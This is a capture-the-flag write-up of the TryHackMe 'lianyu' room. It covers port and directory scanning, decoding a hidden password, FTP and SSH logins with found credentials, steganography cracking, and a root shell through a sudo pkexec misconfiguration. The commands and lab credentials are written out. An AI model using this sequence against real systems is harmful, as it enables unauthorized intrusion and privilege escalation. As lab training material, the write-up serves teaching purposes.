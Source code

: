 https://tryhackme.com/room/lianyu

## Scan

nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-01 11:20 EDT
Nmap scan report for 10.10.124.70
Host is up (0.35s latency).

PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http    Apache httpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
111/tcp open  rpcbind 2-4 (RPC #100000)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          47552/udp6  status
|   100024  1          54581/tcp   status
|   100024  1          56731/udp   status
|_  100024  1          58410/tcp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.46 seconds

```

gobuster
```
http://10.10.124.70:80/index.html (Status: 200) [Size: 2506]
http://10.10.124.70:80/island (Status: 301) [Size: 235]
/server-status

```

/island

codeword:
```
vigilante
```

comment section
```
<!-- go!go!go! -->
```

gobuster on /island

found another sub directory
```
/2100
```

page source mentions .ticket extension

run gobuster again on this sub directory searching for .ticket file

found /green_arrow.ticket

http://10.10.50.101/island/2100/green_arrow.ticket

```
RTy8yhBQdscX
```
this looks like a base something

base58 decode

```
!#th3h00d
```

## Access

use these creds for ftp 

```
vigilante:!#th3h00d
```

download 3 image files from ftp, and also the /etc/passwd file

we see the username slade in the passwd file

stegcracker aa.jpg

```
stegpassword = password
```

we find the password 

```
M3tahuman
```

ssh
```
slade:M3tahuman
```

read the user flag

## priv esc

run command sudo -l

discover we can run pkexec as sudo with no password

```
pkexec --user root /bin/sh
```

we are now root

cat out the root flag
